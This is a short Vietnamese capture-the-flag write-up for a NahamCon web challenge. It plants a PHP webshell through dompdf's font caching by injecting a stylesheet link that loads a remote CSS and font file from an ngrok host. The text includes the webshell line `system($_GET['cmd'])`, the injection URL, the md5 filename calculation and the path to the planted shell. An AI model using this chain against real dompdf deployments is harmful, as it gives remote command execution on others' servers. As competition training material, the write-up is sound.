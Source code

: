 ### Solution
endpoint là một trong 3 cái Qty, chèn vào cái nào cũng được.

tạo file exploit.css như này, thay đổi url phù hợp với contrainer của bạn:
![](https://hackmd.io/_uploads/r1CD01oPh.png)

thêm payload php vào cuối file exploit_font.php để tạo webshell.
Như này: `<?php system("$_GET['cmd']"); ?>`
![](https://hackmd.io/_uploads/Hk330yoP3.png)

tạo server web font:
`php -S 0.0.0.0:9001`

chèn payload để tải font css cho trình tạo pdf:
`<link rel=stylesheet href='https://282e-104-28-254-74.ngrok-free.app/exploit.css'>`

fullpaylod: http://challenge.nahamcon.com:31335/quote.php?organisation=test&email=admin%40gmail.com&small=4%3Clink%20rel=stylesheet%20href=%27https://282e-104-28-254-74.ngrok-free.app/exploit.css%27%3E&medium=4&large=4

tên file sẽ được hash bằng md5 và nối với tên font css và weight css như sau:
```
exploitfont_normal_<linkcsshash>
tạo hash:

echo -n http://challenge.nahamcon.com:31335//exploit_font.php | md5sum
```

=> `068578d3364c1228150e9c8f8e7b8291`

cuối cùng truy cập link: `/dompdf/lib/fonts/exploitfont_normal_068578d3364c1228150e9c8f8e7b8291.php`

ta sẽ có được webshell
